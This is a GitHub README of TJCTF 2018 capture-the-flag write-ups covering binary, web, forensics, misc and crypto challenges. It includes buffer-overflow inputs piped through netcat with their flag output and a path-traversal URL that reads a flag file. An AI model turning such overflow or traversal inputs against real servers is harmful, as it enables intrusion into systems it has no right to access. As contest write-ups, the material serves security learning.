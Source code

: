 # TJCTF_2018

Writeups for tjctf 2018

## Binary Exploitation

### Math Whiz

*The neighborhood math whiz won't stop bragging about the [registration form](The neighborhood math whiz won't stop bragging about the registration form (source) he coded. Show him who's boss!) [(source)](https://static.tjctf.org/b205be62e0ea85709eae9e6b43a2041383a6bcde3ab6e956b3077d68ef04b8aa_register.c) he coded. Show him who's boss!*

`nc problem1.tjctf.org 8001`

There's a pretty blatent buffer overflow vulnerability that exists because the fgets command is being passed the wrong parameter. Just injecting enough lines of A's via python gets the job done.

```
python -c "print ('A'*100+'\n')*10" | nc problem1.tjctf.org 8001
******************** Please Register Below ********************
Full Name: Username: Password: Recovery Pin: Email: Address: Biography: Successfully registered 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' as an administrator account!
Here is your flag: tjctf{d4n63r0u5_buff3r_0v3rfl0w5}
timeout: the monitored command dumped core
```

### Tilted Troop

*Can you help us defeat the monster? [binary](https://static.tjctf.org/ec2a70a6fb4adde9dd9bc19319524cceffc821486345e4cfc670cd21f80193ed_strover) [(source)](https://static.tjctf.org/48bd93cb48aab01658f26ef62da5507446f45445aaa83c902bfd9023c803be00_strover.c)*

`nc problem1.tjctf.org 8002`

This is another buffer overflow problem. Indexed incorrectly you can input 9 characters. The ascii values of the last character's name sum together to make up the strength of all the characters because of this. Just inject an ascii string with the proper sum for the 9th character.

```
root@DESKTOP-C400:/mnt/c/Program Files/VCG/MeshLab# (python -c "print 'A\n'*8+'A aaam\n'+'F\n'"; cat) | nc problem1.tjctf.org 8002
Commands:
 A <name> - Add a team member
 F - Fight the monster
 Q - Quit
Wow! Your team is strong! Here, take this flag:
tjctf{0oPs_CoMP4Ri5ONs_r_h4rD}
Try again
^C
root@DESKTOP-C400:/mnt/c/Program Files/VCG/MeshLab#
```

### Future Canary Lab
*The world renowned Future Canary Lab is looking for a new lab member. Good luck with your [interview](https://static.tjctf.org/c962e5ec36fc4161a93c042e1837cf0fe0a35a92469f37181f827d9ee8a54cca_interview) [(source)](https://static.tjctf.org/2e1b38dc00bfb021e2deb45219f4c44b371dc1ae98b0fb2ee2d9905032e310a3_interview.c!)*

`nc problem1.tjctf.org 8000`

This one is a stack exploit via buffer overflow that requires leaving a stack canary intact. They use C's default random library with a seed of the time in seconds. Just write a C script to generate the values locally and then inject the overflow, canary, and payload to get the calculation to evaluate to 0xdeadbeef in the code via a simple python script using os.popen and pwntools' socks client.

### Secure Secrets

*I am responsible for architecting the most recent paradigm in our modern technological revolution: Secure Secrets. Why don't you [try](https://static.tjctf.org/521f71839cd9dfb7cc608497cef567f4942b849a017e28bb2e069fecfbab17fc_secure) it out?*

`nc problem1.tjctf.org 8008`

[Video Writeup](https://youtu.be/NbDZW0HQmf4)

## Web

### Blank
*Someone told me there was a flag on this [site](https://blank.tjctf.org/), so why is it that I can only see blank?*

The flag is a comment in the webpage source html code. Ctrl-U in firefox.

### Cookie Monster
*The [Cookie Monster](https://cookie_monster.tjctf.org/) is not a fan of horses*

The flag is a webpage cookie. Just go into the debug console (F-12) and find it there with the rest of the webpage cookies.

### Central Savings Account
*I seem to have forgotten the password for my savings account. What am I gonna do?*

The flag's md5 has is stored client side in the webpage js. Just throw it into hashkiller. The flag is "avalon".

### Moar Horses
*The [Horse](https://moar_horse.tjctf.org/) is back!*

This problem must seriously have been a joke. Just keep scrolling via javascript. Eventually you'll find a response containing the flag in the console.

```javascript
$(window).scroll(function () { console.log( $('.jscroll-next-parent').html() ); })
```

```
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">tjctf{h0rs3s_h4v3_lonG_l3gS}</a> debugger eval code:1:32
<a href="/legs">tjctf{h0rs3s_h4v3_lonG_l3gS}</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a>
```

### Programmable Hyperlinked Pasta

*Check out my new site! PHP is so cool!*

[programmable_hyperlinked_pasta.tjctf.org](programmable_hyperlinked_pasta.tjctf.org)

`view-source:https://programmable_hyperlinked_pasta.tjctf.org/?lang=../flag.txt`

## Misc.

### Trippy
*[trippy](https://static.tjctf.org/be37fef78cfd6c7deda71154f567e6d0cfefbda1f80698c064bab469d3a54c58_trippy.gif)*

Run strings on the file and grep for "tjctf"

```
root@DESKTOP-C400:/mnt/d/Google Drive/Documents/ctf/TJCTF_2018/trippy# strings trippy.gif | grep tjctf
tjctf{w0w}
root@DESKTOP-C400:/mnt/d/Google Drive/Documents/ctf/TJCTF_2018/trippy#
```

### Mirror Mirror

*If you look closely, you can see a reflection.*

`nc problem1.tjctf.org 8004`

The problem leaves us with a restricted python terminal and a hint regarding reflection, a way to get possible attributes of object and/or functions at runtime in many languages. Once we locate the string we need to call a given get_flag() function with as an argument we must use python brainfuck to compose the string under the impressed input char restrictions. See the video writeup.

[Video Writeup](https://youtu.be/d3jTRhRo60U)

## Forensics

### Weird Logo

*This company's logo stands in contrast of those of other leading edge tech companies with its poor design*

![Source](https://static.tjctf.org/c9a03d15f235087145579bd06f3f736a5546539254fbde100b8bf4d990bb8d8f_logo.png)

Solution: There are 2 colors of blue used in the image that are very close to one another. Use a bucket tool in paint with 100% selectivity to get the flag.

![](https://github.com/MeadeRobert/TJCTF_2018/blob/master/weird_logo/weird_logo_edited.png)

### Weird Audio Circuit

*In my electronics class, we made this cool circuit for encoding audio. Check it out!*

[Audio](https://static.tjctf.org/c34e48ab19254a7fe95fff369d8dca5272f2a46f92e6c4ffef50d9b4de5e9cbc_problem.wav)

[Video Writeup](https://youtu.be/ZLO1LipkSFc)

The file contains an AM modulated audio signal with a carrier at 10Khz. Demodulate with the following nyquist script in audacity, and transcribe the flag starting at ~36 seconds in.

[https://forum.audacityteam.org/viewtopic.php?t=95331](https://forum.audacityteam.org/viewtopic.php?t=95331)
`(lowpass8 (mult *track* (hzosc 10000)) 10000)`

### Ssleepy

*I found this super suspicious [transmission](https://static.tjctf.org/99870da89e552d13905dbff3fe0543ca336c4c425cb723e3f4b6c0e91a6e23e7_ssleepy.pcapng) lying around on the floor. What could be in it?*

Extract .7z file containing .pem file for RSA private key (for SSL traffic decryption) from FTP traffic in wireshark. Then, extract the flag.jpg file from the SSL traffic responding to the GET request for the flag image.

[Video Writeup](https://youtu.be/1uiYoRnXt0M)

## Cryptography

### Classic

*My primes might be close in size but they're big enough that it shouldn't matter right? [rsa.txt](https://static.tjctf.org/6bd24f59c2861c8f62358d17d677812bc079876f6951c22d13f396bbf1059cca_rsa.txt)*

The modulus is easily factored by [Fermat's Algorithm](https://en.wikipedia.org/wiki/Fermat%27s_factorization_method). Use the factorization to generate the private key and decrypt the ciphertext.

### Affine

Didn't solve this one during the competition, but I'm still pretty convinced its a linearly padded hastad broadcast attack where the padding is the sha1 hash of the modulus as a string.




